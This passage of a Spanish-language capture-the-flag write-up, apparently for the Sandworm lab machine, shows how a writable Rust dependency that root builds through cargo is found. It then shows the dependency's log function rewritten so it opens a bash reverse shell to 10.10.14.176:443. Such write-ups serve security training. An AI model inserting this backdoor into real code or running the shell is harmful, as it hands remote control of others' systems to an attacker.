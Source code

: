 Podemos ver que usa `extern crate logger;`, buscaremos en donde se hace referencia en `/opt/tipnet` a esto de `logger`.

```bash
silentobserver@sandworm:/opt/tipnet$ grep -r "logger" 2>/dev/null
Cargo.toml:logger = {path = "../crates/logger"}
#####
```

Hace referencia a una dependencia de este programa, pero no es una que se descargue de Internet, sino que es personalizada y esta en `/opt/crates/logger` y su archivo de `rust` en `src/lib.rs`. Nosotros como grupo podemos editar y leerlo.

```bash
silentobserver@sandworm:/opt/crates/logger/src$ ls -la
total 12
drwxrwxr-x 2 atlas silentobserver 4096 May  4 17:12 .
drwxr-xr-x 5 atlas silentobserver 4096 May  4 17:08 ..
-rw-rw-r-- 1 atlas silentobserver  732 May  4 17:12 lib.rs
```

### RCE
Usando [pspy](https://github.com/DominicBreuker/pspy/releases), para ver las tareas que se ejecutan cada cierto intervalo de tiempo y que usuario las está ejecuntando, vemos que el usuario con **UID=0** (`root`) está creando un binario con `cargo`.

```bash
#####
2023/07/18 21:24:01 CMD: UID=0     PID=38126  | /bin/sh -c cd /opt/tipnet && /bin/echo "e" | /bin/sudo -u atlas /usr/bin/cargo run --offline
#####
```

Esto nos hace pensar en un ataque que implique modificar la función `pub fn log` para que ejecute un comando una vez se compile el proyecto de `rust`, ya que el `tipnet` ejecuta la función `log` al final una vez que se usa como sea este binario.

```rust
//#####
  logger::log("ROUTINE", " - ", "Pulling fresh submissions into database.");

}
```

Probemos a enviar una **reverse shell** a nuestra máquina modificando el `lib.rs`.

```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command; //AÑADIMOS ESTO PARA PODER EJECUTAR COMANDOS

pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/10.10.14.176/443 0>&1";

    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("failed");

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
//#####
```
